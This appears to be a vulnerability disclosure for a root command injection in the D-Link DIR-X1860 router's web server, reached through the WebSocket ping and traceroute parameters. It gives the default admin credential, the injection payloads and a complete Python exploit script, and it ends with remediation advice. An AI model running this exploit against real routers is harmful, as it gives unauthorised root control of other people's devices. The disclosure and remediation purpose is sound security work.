

# D-Link DIR-X1860 Wireless Router

- Vendor: D-Link
- Product: DIR-X1860
- Product Model: DIR_X1860_MT7621_NON4RU
- Firmware Version: 4.5.2 (SYSBUILDTIME `Mon Jun 8 14:29:05 MSK 2026`, DATAMODEL 2.189.3)
- Vulnerability Type: OS Command Injection (CWE-78) → root Remote Code Execution

# Description

The DIR-X1860 runs `anweb` on port 80 — the web server behind the router's administrative interface. `anweb` exposes a "network utilities" feature over a WebSocket at `/websocket`: the browser asks the router to run `ping` or `traceroute`, and the command's output is streamed back to the page line by line.

The `ping` action accepts an `-I` parameter (source interface/address). `traceroute` accepts an `-s` parameter. Every other parameter is validated against a whitelist and rejected with `incorrect_params` when it fails — but these two are **not validated at all**. Their value is concatenated verbatim into a shell command line that is executed with `popen()`. A value containing a shell metacharacter (`;`) therefore ends the `ping`/`traceroute` call and runs whatever command follows it, with the privileges of `anweb` — which is **root**.

The exact command line the server handed to the shell was captured from the running device (see Proof of Concept, Step 8):

```
sh -c unset DEUTERON_SERVICE_ID; ping 127.0.0.1 -c 1 -I x;cat /proc/$$/cmdline>/tmp/cl2;:
```

Everything from `x;` onward is attacker-controlled input.

Reaching the feature requires a logged-in session. On a factory-default device the administrator credential is `admin`/`admin`, compiled into the binary at build time, and a single plaintext `POST /login` returns an `AccessToken` valid for 300 seconds. The injection is nevertheless a separate defect from the default credential: it still works after the administrator changes the password.

# Impact

An attacker with access to the administrative interface (a single HTTP request on a default device) can execute arbitrary commands as **root**, leading to full compromise of the router: reading configuration and credential files (e.g. `/etc/shadow`), changing any system setting, starting services, installing persistence, using the device as a pivot into the internal network, or rendering it inoperable.


# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in `/usr/sbin/anweb` (ELF32 MIPS little-endian, non-PIE, MD5 `fb34cdc58de9a93313a3e709372f2a26`), which runs as `root`.

**Taint source** — the WebSocket `sysutils` action handler. The request carries a JSON object of parameters:

```json
{"method":"ping","params":{"host":"127.0.0.1","-c":"1","-I":"<value>"}}
```

The `-I` value is used as-is. The equivalent logic, reconstructed from the binary, is:

```c
/* action_ping — reconstructed equivalent */
cmd = "unset DEUTERON_SERVICE_ID; ping ";
str_add(cmd, host);
str_add(cmd, " -c ", count);
str_add(cmd, " -I ", value);      /* <- request field, no validation, no quoting */

/* action_work_handler */
FILE *fp = popen(cmd, "r");       /* runs /bin/sh -c "<cmd>" */
while (getline(&line, &len, fp) > 0)
    ws_send(line);                /* every output line is sent back over the socket */
```

Because the value is inserted into the command line **without quoting or escaping**, the shell treats any `;`, `|`, backtick, `$()` etc. inside it as syntax rather than as part of an interface name.

**Ground truth.** The command line actually passed to `/bin/sh` was read back from the running process (`/proc/<pid>/cmdline`) after the injection, for both actions:

```
sh -c unset DEUTERON_SERVICE_ID; ping 127.0.0.1 -c 1 -I x;cat /proc/$$/cmdline>/tmp/cl2;:
sh -c unset DEUTERON_SERVICE_ID; traceroute 127.0.0.1 -s x;cat /proc/$$/cmdline>/tmp/ct;:
```

This removes any doubt about how the request fields reach the shell.

**The whitelist proves the omission is a bug, not a feature.** The same handler validates other parameters and rejects invalid values:

| Action | Validated parameters (→ `{"error":{"message":"incorrect_params"}}`) | Unvalidated parameters (→ executed) |
|---|---|---|
| ping | `-c`, `-s`, `-W` | **`-I`** |
| traceroute | `-q`, `-m`, `-w` | **`-s`** |
| (other method) | — | `iperf` → `action_not_found` |

Parameters not present in the whitelist array (for example `-q` on ping) are silently dropped. The intention was clearly to validate every parameter; exactly two entries are missing.

## 2. Authentication Prerequisite

- The WebSocket upgrade itself (`GET /websocket`) is **not** authenticated.
- The `sysutils` action is rejected with `{"error":{"message":"auth_error"}}` unless the request carries a valid `DMSD-Access-Token` cookie.
- The token comes from `POST /login`, which accepts plaintext JSON:

```http
POST /login HTTP/1.1
Host: <router>
Content-Type: application/json

{"login":"admin","password":"admin","staysigned":false}
```

Response (measured):

```json
{
  "id": 1,
  "result": {
    "Status": 0,
    "AccessTimeout": 300,
    "AccessToken": "<uuid>",
    "RefreshToken": "<uuid>"
  }
}
```

The credential is compiled into `anweb` (`BR2_PACKAGE_ANWEB_ADMIN_NAME` / `BR2_PACKAGE_ANWEB_ADMIN_PASSWORD`). On a factory-default device it is `admin`/`admin`, so the authentication step costs one public HTTP request.

## 3. Protocol

| Element | Detail |
|---|---|
| Upgrade | `GET /websocket` with `Upgrade: websocket`, `Sec-WebSocket-Key`, `Sec-WebSocket-Version: 13`, `Origin`, `Cookie: DMSD-Access-Token=<token>` → `101 Switching Protocols` |
| Message 1 | `init <decimal>` (for example `init 1`) |
| Message 2 | `sysutils:{"method":"<action>","params":{...}}` — one action per message, **payload ≤ 128 bytes** |
| Result frames | `sysutils:{"method":"<action>","result":{"message":"<line>\n"}}` |
| End frame | `sysutils:{"method":"<action>","result":{"end":true}}` |
| Errors | `{"error":{"message":"auth_error" \| "incorrect_params" \| "action_not_found"}}` |
| Background | the server also broadcasts a `title <date>` frame about once per second — unrelated to action output |

## 4. Exploitation Constraints (measured on 4.5.2)

| Constraint | Verified result |
|---|---|
| Message size | ≤ 128 bytes per `sysutils` message; the PoC message is 90 bytes |
| Injection syntax | `;` verified (a `-I` value of `x;echo ...;id`) |
| Execution context | `uid=0(root) gid=0(root)` |
| Output channel | stdout of the child process is streamed back line by line — an interactive root command channel |
| `ping` timing | the invalid interface `x` makes busybox `ping` wait for one timeout (~10–11 s) before the shell reaches the text after `;` |
| `traceroute` timing | returns immediately (no such delay) |
| `-c` requirement | `ping` must include `-c` so the call terminates; every PoC below sets `-c 1` |

# Proof of Concept

## What these steps do, in plain words

1. **Log in** to the router's web interface. The default `admin`/`admin` returns a token — the same token the browser uses.
2. **Open the live channel** (`/websocket`) that the web UI uses for diagnostics.
3. **Send `init 1`** — the protocol's opening message.
4. **Send a ping request whose "interface" is not an interface name** but `x;echo PINGINJ;id`. `x` is invalid on purpose so that our own commands run immediately after it.
5. The server pastes that value into `ping ... -I <value>` and runs the whole string through `/bin/sh`. The shell ends the ping at `;` and executes what follows.
6. Every line our commands print is sent back over the same WebSocket. Because `anweb` is root, `id` reports `uid=0(root)`.

That is the entire vulnerability: **a request field reaches a shell command line unchanged.**

## Step 1 — Log in and obtain an AccessToken

```bash
curl -s -X POST http://192.168.0.1/login \
  -H 'Content-Type: application/json' \
  -d '{"login":"admin","password":"admin","staysigned":false}'
```

Expected: `"Status": 0`, `"AccessTimeout": 300`, and an `"AccessToken"`.

## Step 2 — Open the WebSocket

```http
GET /websocket HTTP/1.1
Host: 192.168.0.1
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: <base64 of 16 random bytes>
Sec-WebSocket-Version: 13
Origin: http://192.168.0.1
Cookie: DMSD-Access-Token=<token from Step 1>
```

Expected response:

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: <base64>
```

## Step 3 — Initialize the session

Send a text frame containing:

```
init 1
```

## Step 4 — Send the injection message

Send a text frame containing (90 bytes, inside the 128-byte limit):

```json
sysutils:{"method":"ping","params":{"host":"127.0.0.1","-c":"1","-I":"x;echo PINGINJ;id"}}
```

The server builds and executes:

```sh
sh -c "unset DEUTERON_SERVICE_ID; ping 127.0.0.1 -c 1 -I x;echo PINGINJ;id"
```

The `;` splits this into three commands: `ping ... -I x` (fails on the invalid interface), `echo PINGINJ`, and `id`. The last two run as root.

## Step 5 — Read the output

Same connection, received frames:

```
sysutils:{"method":"ping","result":{"message":"PINGINJ\n"}}
sysutils:{"method":"ping","result":{"message":"uid=0(root) gid=0(root)\n"}}
sysutils:{"method":"ping","result":{"end":true}}
```

## Step 6 — The same primitive through `traceroute -s`

```json
sysutils:{"method":"traceroute","params":{"host":"127.0.0.1","-s":"x;echo TRACE_s"}}
```

Executed as:

```sh
sh -c "unset DEUTERON_SERVICE_ID; traceroute 127.0.0.1 -s x;echo TRACE_s"
```

Received frames:

```
sysutils:{"method":"traceroute","result":{"message":"TRACE_s\n"}}
sysutils:{"method":"traceroute","result":{"end":true}}
```

## Step 7 — Prove it is real execution, not an echo

The output channel is the child process's stdout, so arbitrary commands can write files:

```json
sysutils:{"method":"ping","params":{"host":"127.0.0.1","-c":"1","-I":"x;echo RCEPROOF > /tmp/OWNED"}}
```

Checked from the device shell:

```
# ls -l /tmp/OWNED
-rw-r--r--    1 root     root             9 /tmp/OWNED
# cat /tmp/OWNED
RCEPROOF
```

## Step 8 — Independent proof: the exact string given to the shell

Rather than assume how the command is assembled, the process's own command line was read back after injecting `x;cat /proc/$$/cmdline>/tmp/cl2;:`:

```
sh -c unset DEUTERON_SERVICE_ID; ping 127.0.0.1 -c 1 -I x;cat /proc/$$/cmdline>/tmp/cl2;:
```

and for traceroute:

```
sh -c unset DEUTERON_SERVICE_ID; traceroute 127.0.0.1 -s x;cat /proc/$$/cmdline>/tmp/ct;:
```

The captured text is the ground truth of how `-I` / `-s` reach `/bin/sh`.

## Full EXP

Self-contained, Python 3 standard library only. Save as `poc.py`, run `python3 poc.py <router-ip>`:

```python
#!/usr/bin/env python3
# D-Link DIR-X1860 anweb /websocket sysutils command injection (root)
import base64, json, os, re, socket, struct, sys, urllib.request

host = sys.argv[1] if len(sys.argv) > 1 else '192.168.0.1'

# --- 1. login with the compile-time default credential -------------------
req = urllib.request.Request(
    'http://%s/login' % host,
    data=json.dumps({"login": "admin", "password": "admin",
                     "staysigned": False}).encode(),
    headers={'Content-Type': 'application/json'}, method='POST')
body = urllib.request.urlopen(req, timeout=30).read().decode()
token = re.search(r'"AccessToken"\s*:\s*"([^"]+)"', body).group(1)

# --- 2. WebSocket upgrade -------------------------------------------------
s = socket.create_connection((host, 80), timeout=10)
key = base64.b64encode(os.urandom(16)).decode()
s.sendall(("GET /websocket HTTP/1.1\r\nHost: %s\r\nUpgrade: websocket\r\n"
           "Connection: Upgrade\r\nSec-WebSocket-Key: %s\r\n"
           "Sec-WebSocket-Version: 13\r\nOrigin: http://%s\r\n"
           "Cookie: DMSD-Access-Token=%s\r\n\r\n"
           % (host, key, host, token)).encode())
buf = b''
while b'\r\n\r\n' not in buf:
    buf += s.recv(4096)

# --- 3. minimal WebSocket framing ----------------------------------------
def send(msg):
    p = msg.encode(); m = os.urandom(4)
    s.sendall(bytes([0x81, 0x80 | len(p)]) + m +
              bytes(b ^ m[i % 4] for i, b in enumerate(p)))

def recv():
    h = s.recv(2)
    n = h[1] & 0x7f
    if n == 126:
        n = struct.unpack('>H', s.recv(2))[0]
    d = b''
    while len(d) < n:
        d += s.recv(n - len(d))
    return d.decode('utf-8', 'replace')

# --- 4. inject through the unvalidated "-I" parameter --------------------
send('init 1')
send('sysutils:{"method":"ping","params":{"host":"127.0.0.1","-c":"1",'
     '"-I":"x;echo PINGINJ;id"}}')

for _ in range(40):
    t = recv()
    if t.startswith('title '):      # periodic banner frame, not a result
        continue
    print(t)
    if '"end":true' in t:
        break
```



# Reproduction Result

## Observed output

```
sysutils:{"method":"ping","result":{"message":"PINGINJ\n"}}
sysutils:{"method":"ping","result":{"message":"uid=0(root) gid=0(root)\n"}}
sysutils:{"method":"ping","result":{"end":true}}
```

## Negative controls

The same request format is sent, but with parameters that the handler validates:

```
ping -c / -s / -W   -> {"error":{"message":"incorrect_params"}}
ping -I             -> command executed (above)
traceroute -q/-m/-w -> {"error":{"message":"incorrect_params"}}
traceroute -s       -> command executed (above)
method iperf        -> {"error":{"message":"action_not_found"}}
```

This confirms the handler does enforce a parameter whitelist, and that exactly two parameters were left out of it.

## Environment

Verified on **2026-10-17** by full-system emulation of the vendor firmware image:

- Firmware: DIR-X1860 `DIR_X1860_MT7621_NON4RU` 4.5.2 (`anweb` MD5 `fb34cdc58de9a93313a3e709372f2a26`).
- Emulator: QEMU `qemu-system-mipsel -M malta -m 384`, FirmAE kernel `vmlinux.mipsel.4`, rootfs extracted from the vendor image (`rdinit=/firmadyne/preInit.sh`).
- Guest network: `br0 = 192.168.0.1`, HTTP interface on port 80, `anweb` started automatically by the firmware init.
- In the emulator, `id` was invoked through the emulator's busybox binary; on real hardware the plain `id` in `PATH` behaves identically.

**Caveat:** the issue was confirmed in emulation. Hardware confirmation by the vendor is recommended. No destructive action (`reboot`, factory reset, firmware upgrade) was performed.

# Root Cause Summary

1. `action_ping` copies the request field `-I` into a shell command line without validation; `action_traceroute` does the same for `-s`.
2. The command line is executed with `popen()`, i.e. through `/bin/sh -c`, so shell metacharacters in the value are interpreted.
3. `anweb` runs as `root`, so the injected commands execute with the highest privilege.
4. The existence of a whitelist for all other parameters shows that the omission of these two is an implementation defect, not intended behaviour.

# Remediation

- Validate `-I` (ping) and `-s` (traceroute) the same way the other parameters are validated: an interface name against the set of existing interfaces, a source address with a strict address parser.
- Do not build command lines by string concatenation. Use `execv()`/`posix_spawn()` with an explicit `argv` array so no shell is involved.
- If a shell must be used, quote/escape every user-supplied value.
- Do not embed a fixed administrative credential in the firmware; generate a unique password per device at first boot and require it to be changed before the management interface is exposed.
